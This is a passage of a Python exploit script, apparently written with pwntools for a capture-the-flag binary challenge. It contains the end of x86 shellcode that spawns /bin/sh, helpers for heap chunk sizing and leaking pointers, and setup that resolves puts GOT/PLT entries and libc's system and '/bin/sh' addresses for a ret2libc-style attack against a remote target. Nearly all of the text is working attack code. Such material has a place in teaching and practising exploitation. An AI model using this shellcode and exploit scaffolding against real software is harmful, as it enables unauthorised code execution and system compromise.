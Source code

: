```python
int 0x80

BIN_SH:
.ascii "/bin/sh"
.byte 0x00
'''

# Unfortunately, x86 doesn't supports "lea ebx, [eip + BIN_SH]". Moved the raw offset for it..
OFFSET_TO_BIN_SH = 0x0e

def unsigned(n, bitness=32):
    if n < 0:
        n = n + 2**bitness
    return n

def pad(buf, alignment, delimiter=b'\x00'):
    if (len(buf) % alignment) == 0:
        return buf

    extra = (alignment - (len(buf) % alignment)) * delimiter
    return buf + extra

def splitted(buf, n):
    for i in range(0, len(buf), n):
        yield buf[i: i + n]

def chunkSize(alloc_size):
    assert(alloc_size >= 0)
    min_size = alloc_size + SIZEOF_PTR
    res = min_size % (2 * SIZEOF_PTR)
    pad = (2 * SIZEOF_PTR) - res if res else 0
    return min_size + pad

def allocSize(chunkSize):
    assert((chunkSize & 0xf) == 0)
    return chunkSize - SIZEOF_PTR

def recvPointer(p):
    leak = p.recv(SIZEOF_PTR)
    assert(len(leak) == SIZEOF_PTR)
    leak = u32(leak)
    return leak

###### Constants ######
IS_DEBUG = False
IS_REMOTE = True
SIZEOF_PTR = 4
BULLET_SIZE = 0x30


###### Offsets ######

###### Addresses ######
binary = ELF(BINARY)
main_binary = binary.symbols['main']
puts_got = binary.got['puts']
puts_plt = binary.plt['puts']

libc = ELF(LIBC)
bin_sh_libc = next(libc.search(b'/bin/sh'))
system_libc = libc.symbols['system']
puts_libc = libc.symbols['puts']
log.info(f'bin_sh_libc: {hex(bin_sh_libc)}')
```